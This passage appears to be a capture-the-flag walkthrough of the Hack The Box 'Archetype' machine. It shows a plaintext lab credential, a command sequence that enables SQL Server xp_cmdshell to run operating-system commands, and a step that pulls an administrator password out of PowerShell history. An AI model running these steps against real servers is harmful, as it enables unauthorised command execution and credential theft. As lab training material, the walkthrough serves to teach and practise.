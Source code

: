 According to [Microsoft](https://docs.microsoft.com/en-us/sql/relational-databases/system-stored-procedures/xp-cmdshell-transact-sql?view=sql-server-ver15), xp_cmdshell Spawns a Windows command shell and passes in a string for execution. Any output is returned as rows of text.

`xp_cmdshell`

## What script can be used in order to search possible paths to escalate privileges on Windows hosts?

Winpeas is a script which can automate a big part of the enumeration process in the target system. You can find more information for enumerating Windows system
for Privilege Escalation paths in the HTB academy module [Windows Privilege Escalation](https://academy.hackthebox.eu/course/preview/windows-privilege-escalation). You can download it at: [carlospolop/PEASS-ng/winPEAS/](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS)

`winpeas`

## What file contains the administrator's password?

After gaining a shell on the target, i run winpeas and came across powershell history as a file of interest.

The text file `“ConsoleHost_history.txt”` located at: `%userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\` Holds a history of recent Windows PowerShell commands executed. Unless changed by a user with the `“Set-PSReadlineOption –HistorySavePath”` option.

![image](https://user-images.githubusercontent.com/58165365/154124751-97a5eb42-855f-4860-9c12-a435b84d1660.png)

Cating its contents, reveals the Administrators password

`ConsoleHost_history.txt`

## Submit user flag

We can use `mssqclient.py` to do connect to the database and gain shell access using `xp_cmdshell`.

```bash
# Cheat-Sheet
mssqlclient.py ARCHETYPE/sql_svc:M3g4c0rp123@tun0 -windows-auth
SELECT IS_SRVROLEMEMBER ('sysadmin')
EXEC sp_configure 'Show Advanced Options', 1;
reconfigure;
sp_configure;
EXEC sp_configure 'xp_cmdshell', 1
reconfigure;
xp_cmdshell "whoami"
```

```bash
➜  mssqlclient.py ARCHETYPE/sql_svc:M3g4c0rp123@10.129.92.164 -windows-auth
Impacket v0.9.24.dev1+20210704.162046.29ad5792 - Copyright 2021 SecureAuth Corporation

[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(ARCHETYPE): Line 1: Changed database context to 'master'.
[*] INFO(ARCHETYPE): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (140 3232)
[!] Press help for extra shell commands
SQL> xp_cmdshell
[-] ERROR(ARCHETYPE): Line 1: SQL Server blocked access to procedure 'sys.xp_cmdshell' of component 'xp_cmdshell' because this component is turned off as part of the security configuration for this server. A system administrator can enable the use of 'xp_cmdshell' by using sp_configure. For more information about enabling 'xp_cmdshell', search for 'xp_cmdshell' in SQL Server Books Online.
SQL> SELECT IS_SRVROLEMEMBER ('sysadmin')

```